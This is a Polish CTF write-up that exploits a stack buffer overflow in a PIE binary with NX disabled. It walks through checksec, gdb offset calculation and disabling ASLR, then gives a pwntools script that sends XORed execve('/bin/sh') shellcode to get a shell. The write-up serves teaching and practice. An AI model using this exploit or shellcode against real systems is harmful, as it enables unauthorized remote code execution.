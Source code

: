 # mikhail write-up

## Wykorzystywane narzędzia

- pwntools
- gdb
- pwndbg

## Opis zadania

W tym zadaniu dostajemy binarkę która działa po stronie serwera i źródło w C++.  

programem checksec który instaluje się razem z `pwndbg` można sprawdzić z jakimi zabezpieczeniami program został skompilowany.

```
b@x:~/Desktop/mikhail > checksec story
[*] '/home/b/Desktop/mikhail/story'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
```

Dla nas istotne są rubryki:  

- `Stack` - mówi nam że na stosie nie ma kanarków
- `NX` - NX jest wyłączone, czyli program może wykonywać instrukcje leżące na stosie lub stercie.
- `PIE` - Za każdym włączeniem programu, plik binarny będzie ładowany pod losowym adresem. Między innymi sekcja kodu


## Szukanie podatności

W kodzie programu można zobaczyć 2 linijki:

```C 
    char password[64];
```
a później: 

```
    pass_len = read(0, password, 1000);
```

Co oznacza że program jest podatny na `buffer overflow` i możemy nadpisać adres powrotu na `A` powodując że program zacznie wykonywać instrukcje z pod adresu `A`. Niestety nic nam to nie daje bo przez `PIE` i `ASLR` nie wiemy gdzie wskoczyć.  

Analizując dalej widzimy taki kod:

```C
    char const *const msg = "Yay! We encrypted your story! It's secret now at ";
    for(i = 0; i < 49; ++i) {
        password[pass_len + i] = msg[i];
    }

    size_t *const ptr = reinterpret_cast<size_t *>(&password[pass_len + 49]);
    *ptr = reinterpret_cast<size_t>(story);
```

który dopisuje do bufora na stosie `password` wiadomość `Yay! We encrypted your story! It's secret now at ` a poźniej jeszcze jest dodawany wskaźnik na bufor `story`. Jest on zapisywany w postaci little-endian.

Oznacza to, że jeśli wybierzemy nasze hasło odpowiedniej długości to wskaźnik na bufor `story` zapisze się w miejscu adresu powrotu z funkcji. Wtedy po wyjściu z funkcji `foo` program zacznie wykonywać instrukcje które sami mu dostarczymy do bufora `story` .

Tylko jak obliczyć długość hasła?  

Po zdisasemblerowaniu binarki (ja użyłam do tego programu `IDA Pro`) można odnaleźć miejsce w którym właśnie jest zapisywny wskaźnik na story:

```
.text:0000000000000A6C                 mov     rax, cs:story
.text:0000000000000A73                 mov     rdx, rax
.text:0000000000000A76                 mov     rax, [rbp+var_30]
.text:0000000000000A7A                 mov     [rax], rdx
```
Za samo wrzucenie wskaźnika do `story` odpowiada instrukcja pod adresem `0000000000000A7A`.  

Spróbujmy podpiąć się debuggerem w to miejsce.

## Debugowanie

Dla ułatwienia debugowania wyłączamy chwilowo ASLR'a:

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Włączmy binarke w gdb:


```
b@x:~/Desktop/mikhail > gdb ./story
```

Ustawiamy breakpoint na `0x555555554a7a`

```
b *0x555555554a7a
```

i na instrukcji `ret` w funkcji `foo`:

```
b *0x555555554aab
```

Możemy teraz urcuhomić program w gdb i podać puste hasło (1-Bajtowe haslo - sam znak nowej lini)
![gdb_beginning]

![imgs/rax.png]

Widzimy że przy wysłaniu pustego hasła program nadpisuje adres `0x7fffffffd632`.

[imgs/returning_from_foo.png]

Tutaj widać że adres powrotu znajduje się pod adresem: `0x7fffffffd678`

Obliczmy róźnicę pomiędzy tymi adresami:

```python
In [1]: 0x7fffffffd678-0x7fffffffd632
Out[1]: 70

```
Trzeba wysłać password dłuższe o 70 znaków czyli sumarycznie 71 znaków. 
Możemy sprawdzić w gdb czy obliczyliśmy wszystko poprawnie (wysyłamy 70 znaków `a` i znak nowej lini:

![imgs/p1.png]
Na powyższym obrazku widzimy że zapisuje adres na bufor `story` w miejsce które przechowuje adres powrotu.

![imgs/p2.png]

Po kontynuowaniu wykonywania programu w gdb widzimy że program wywalił się na próbie wykonywania instrukcji ze sterty, co oznacza że próbował wykonać instukcje z bufora `story`

## Piszemy exploita

Możemy uruchomić binarkę u siebie tak aby nasłuchiwała na porcie 1337 i przekierowywała stdin i stdout na socket:

```b@x:~/Desktop/mikhail > socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./story```

W ten sposób uruchamiane są zadania kategori CTF na serwerach które trzeba zpwownować

Pozostało nam jeszcze tylko wstawienie shellcodu do bufora story (musimy go jeszcze zxorować z buforem password, bo później w aplikacji jest xorowanie jeszcze raz). Poszukujemy shellcodu execve("/bin/sh",0,0) lub coś podobnego. Shellcody możemy znaleźć np. na [exploit-db.com](exploit-db.com), wygenerować metasploitem, lub uzyć [shellcraft z pwntools](http://docs.pwntools.com/en/stable/shellcraft.html)

exploit znajduje się poniżej:  

```python

from pwn import *

r = remote('localhost',1337)
def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()

```


Po zamienieniu `localhost` na adres serwera i zmienieniu portu, exploit również zadziała. Możemy teraz wpisać np. `ls`.  


A jeśli coś nam nie działa to możemy debugować exploita w taki sposób:

```python
from pwn import *


commands = [
  "bp 0x555555554aab",
  "c"
]

gdb.debug('story',gdbscript="\n".join(commands))

def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()
```

Powinno to nam dodatkowo uruchomić dodatkowe okno z gdb. Musimy mieć na uwadze to, że jeśli uruchamiamy proces w gdb to on automatycznie wyłącza ASLRa i PIE.


 
